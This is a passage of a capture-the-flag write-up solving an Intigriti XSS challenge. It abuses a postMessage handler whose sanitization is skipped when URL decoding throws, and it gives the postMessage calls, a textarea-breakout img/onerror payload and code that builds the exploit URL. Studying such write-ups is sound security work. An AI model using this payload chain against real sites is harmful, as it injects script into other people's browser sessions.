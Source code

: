 The `message` is set as a global variable, and since `debugApp` is true, it will be the JSON stringified object of the whole post message.

After that, the `nextGameId` will be URL decoded and after that the `message` will be sanitized. It struck me a bit wild that `nextGameId` will always be URL decoded, but then I realised that it is intentionally. Because what happens if `decodeURIComponent` throws an error? `message` will keep being an unsanitized value, and since the `innerHTML` is set in an `setTimeout`, it can use the unsanitized `message` value.

For that, we only really need two post messages from our own controlled domain:

```js
parent.postMessage({ action: 'gotoNextGame', nextGameId: `//localhost:3000/challenge/game_debug.html`, timeOut: 1000 }, '*')
parent.postMessage({ action: 'gotoNextGame', message: `</textarea><img src=x onerror=alert(origin)>`, timeOut: 0, nextGameId: "%0?" }, '*')
```

The first message will set the `nextGameId` back to the challenge, since that is needed to display the message. However, it will set back after 1 second. The second message will trigger an error using the `nextGameId`, and includes the payload to break out of the `textarea`, with `</textarea>` and does include a simple XSS payload using an `img` tag.

Since fiddeling with encoding, hash and username is slightly complicated, I just used the following snipped to create the final URL:

```js
const base = new URL("https://challenge-0424.intigriti.io/private/play.html?gameId=/challenge/game_debug.html");

const gameDebugParams = encodeURIComponent(`?action=gotoNextGame&nextGameId=//pink-neely-4.tiiny.site`);
const mainParams = `&debug=true`;

base.hash = `${encodeURIComponent(gameDebugParams)}${encodeURIComponent(mainParams)}`;

base.username = `admin`;
base.password = `debug:${base.hash}`;

base.toString();
```

That leads to `https://admin:debug%3A%23%253Faction%253DgotoNextGame%2526nextGameId%253D%252F%252Fpink-neely-4.tiiny.site%26debug%3Dtrue@challenge-0424.intigriti.io/private/play.html?gameId=/challenge/game_debug.html#%253Faction%253DgotoNextGame%2526nextGameId%253D%252F%252Fpink-neely-4.tiiny.site%26debug%3Dtrue`


